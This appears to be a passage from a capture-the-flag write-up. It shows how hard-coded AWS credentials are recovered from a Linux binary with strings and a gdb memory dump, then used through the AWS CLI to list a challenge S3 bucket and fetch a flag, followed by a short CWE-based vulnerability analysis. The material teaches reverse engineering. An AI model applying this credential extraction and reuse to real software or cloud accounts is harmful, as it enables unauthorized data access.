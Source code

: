 The challenge requires a combination of **static** and **dynamic analysis**:

```bash
# Step 1: Extract AWS Access Key (Static Analysis)
strings medicloudx_exporter_linux_x86 | grep AKIA
# Result: AKIAIOSFODNN7EXAMPLE

# Step 2: Extract AWS Secret Key (Dynamic Analysis with GDB)
gdb -q ./medicloudx_exporter_linux_x86
(gdb) break HMAC
(gdb) run --bucket test
(gdb) set $key = (unsigned char *)$rsi
(gdb) set $len = (int)$rdx
(gdb) dump memory /tmp/aws_secret.bin ($key+4) ($key+$len)
(gdb) quit

# Convert binary dump to ASCII
xxd -p /tmp/aws_secret.bin | xxd -r -p
# Result: wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY

# Step 3: Configure AWS CLI
aws configure --profile exporter
# Access Key: AKIAIOSFODNN7EXAMPLE
# Secret Key: wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
# Region: us-east-1

# Step 4: Verify credentials and get bucket suffix
aws sts get-caller-identity --profile exporter
# Extract suffix from username: a1b2c3d4

# Step 5: Navigate S3 and download flag
aws s3 ls s3://ctf-25-medical-exporter-records-a1b2c3d4 --profile exporter
aws s3 ls s3://ctf-25-medical-exporter-records-a1b2c3d4/admin/ --profile exporter
aws s3 ls s3://ctf-25-medical-exporter-records-a1b2c3d4/admin/system_backup/ --profile exporter
aws s3 cp s3://ctf-25-medical-exporter-records-a1b2c3d4/admin/system_backup/flag.txt ./ --profile exporter
cat flag.txt
```

## Technical Analysis

### Vulnerability Details

1. **Hard-coded Credentials (CWE-798)**
   - AWS credentials embedded as string literals
   - No encryption or obfuscation applied
   - Credentials visible in binary without special tools

2. **Information Disclosure (CWE-200)**  
   - Bucket naming patterns exposed in binary
   - Service endpoints and API calls visible
   - Authentication methods discoverable
